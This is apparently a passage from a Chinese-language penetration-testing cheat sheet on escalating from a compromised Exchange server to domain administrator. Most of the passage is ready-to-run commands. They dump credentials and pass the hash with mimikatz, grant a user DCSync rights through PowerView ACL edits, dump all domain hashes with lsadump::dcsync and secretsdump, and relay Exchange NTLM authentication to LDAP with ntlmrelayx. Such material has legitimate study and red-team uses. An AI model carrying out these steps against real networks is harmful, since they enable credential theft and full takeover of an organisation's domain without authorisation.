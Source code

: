     由于这个权限, Exchange 的 RCE 常用以在内网渗透中用来提升到域管权限.

**详细步骤**

```bash
# 查看 Exchange Windows Permissions 对域 NC 有 WriteDacl 权限
AdFind.exe -h 192.168.123.123 -s Base -b "DC=island,DC=com" nTSecurityDescriptor -nosacl -sddl+++ -sddlfilter A;;"WRT PERMS";;;"Exchange Windows Permissions" -recmute

# 拿下 Exchange 服务器权限后，获取机器账户 Hash 并 pth
mimikatz "log" "privilege::debug" "sekurlsa::logonpasswords" "exit"
mimikatz "privilege::debug" "sekurlsa::pth /user:WIN2012-EX2016$ /domain:island.com /ntlm:2d03b02750ee9a3bd9902a370cf67746 /run:cmd" exit

# PowerView.ps1
# pth 后，用 Exchange 机器账户权限修改域分区 ACL，为 zhangsan 添加 Dcsync 权限
# 当然，也可以为 Exchange 机器账户自身添加 Dcsync 权限
Add-DomainObjectAcl -DomainController 192.168.123.123 -TargetDomain island.com -TargetIdentity "DC=island,DC=com" -PrincipalIdentity zhangsan -Rights DCSync -Verbose
Get-DomainObjectAcl -DomainController 192.168.123.123 -Domain island.com -Identity island | ?{$_.SecurityIdentifier -eq "S-1-5-21-65208363-682840273-3768764330-sidofzhangsan"} 
Remove-DomainObjectAcl -DomainController 192.168.123.123 -TargetDomain island.com -TargetIdentity "DC=island,DC=com" -PrincipalIdentity zhangsan -Rights DCSync -Verbose

# 检查是否成功给 zhangsan 添加 Replicating Directory Changes 和 Replicating Directory Changes All 权限
AdFind.exe -h 192.168.123.123 -s Base -b "DC=island,DC=com" nTSecurityDescriptor -nosacl -sddl+++ -sddlfilter A;;;"Replicating Directory Changes";;"zhangsan" -recmute

# 用 zhangsan 的凭证 Dcsync
mimikatz privilege::debug "sekurlsa::pth /user:zhangsan /domain:island.com /ntlm:82b6413f42426e0b40e6d0674eb16299 /run:cmd" exit
mimikatz privilege::debug "lsadump::dcsync /domain:island.com /all /csv /dc:WIN2012-DC1.island.com" exit
python3 secretsdump.py island.com/zhangsan:ZS@123qwe@192.168.123.123 -dc-ip 192.168.123.123 -just-dc-ntlm
```

与域控进行 LDAP 通信的时候有许多注意的地方，比如本地走代理，此时是在域外执行的，需要指定域控、域名等；比如普通域用户权限 AdFind 默认查询 ACL 会失败，因为没有权限查询 SACL 导致域控什么也不返回，需要添加 `-nosacl`，而 powerview 默认只查询 DACL 所以可以成功。

或者，也可以直接中继 Exchange，让 ntlmrelayx 自动完成提权。
```bash
# Exchange System 权限执行
powershell Invoke-WebRequest http://192.168.123.123 -UseDefaultCredentials

# 内网机器上做中继，自动通过 ACL 进行提权
python3 ntlmrelayx.py -t ldap://192.168.123.124 -smb2support
```

#### ACL (已有高权限域账号)

**描述**

`Exchange Organization Administrators` 或 `Organization Management` 组对 Exchange Windows Permissions 和 Exchange Trusted Subsystem 组拥有 `GenericAll` 权限，因此，如果获得了 `Organization Management` 组成员的权限，可以将任意账户添加至 `Exchange Windows Permissions` 或 `Exchange Trusted Subsystem` 组，进而继续通过上述方法提权。
